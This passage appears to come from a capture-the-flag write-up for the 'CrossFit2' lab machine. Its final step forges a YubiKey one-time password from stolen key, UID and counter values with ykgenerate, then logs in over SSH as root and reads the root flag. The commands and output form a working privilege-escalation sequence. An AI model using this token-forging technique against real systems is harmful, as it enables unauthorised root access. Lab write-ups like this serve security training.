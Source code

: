   
  
12) --- Generate Yubikey password and root shell---  
  
  
./ykgenerate cat root.key  cat root.uid  $(printf "%06x" $(expr $(cat root.ctr) + 1) | sed 's/..$//g') c0a8 00 $(printf "%06x" $(expr $(cat root.ctr) + 1) | sed 's/^....//g')


./ykgenerate 6bf9a26475388ce998988b67eaa2ea87  a4ce1128bde4  $(printf "%06x" $(expr 985091 + 1) | sed 's/..$//g') c0a8 00 $(printf "%06x" $(expr 985090+ 1) | sed 's/^....//g')
└──╼ #./ykgenerate 6bf9a26475388ce998988b67eaa2ea87  a4ce1128bde4  $(printf "%06x" $(expr $(cat root.ctr) + 1) | sed 's/..$//g') c0a8 00 $(printf "%06x" $(expr $(cat root.ctr) + 1) | sed 's/^....//g')  
kbkjdcjvntkncgindgifcdnclejfukkc  
└──╼ #ssh -i id\_rsa root@10.10.10.232  
root@10.10.10.232's password:    
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021  
  
Welcome to OpenBSD: The proactively secure Unix-like operating system.  
  
Please use the sendbug(1) utility to report bugs in the system.  
Before reporting a bug, please try to reproduce it with the latest  
version of the code.  With bug reports, please try to ensure that  
enough information to reproduce the problem is enclosed, and if a  
known fix for it exists, include that as well.  
  
crossfit2# id                                                                                                                                                                                                                                                              
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)  
crossfit2# ls  
.Xdefaults      .cache          .config         .cshrc          .cvsrc          .login          .mysql\_history  .npm            .pm2            .profile        .sqlite\_history .ssh            root.txt  
crossfit2# cat root.txt  
6fbc09c17cca32cc7c7b563d5376dd3a  
crossfit2#
